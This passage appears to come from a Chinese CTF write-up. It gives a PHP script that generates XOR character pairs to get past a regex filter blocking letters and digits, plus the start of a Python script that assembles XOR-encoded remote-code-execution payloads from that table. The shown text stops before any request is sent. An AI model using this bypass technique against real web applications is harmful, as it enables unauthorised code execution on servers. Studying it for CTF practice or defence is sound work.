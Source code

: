 过滤了取反、或，我们还可以用异或，脚本如下



```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

```python
# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
```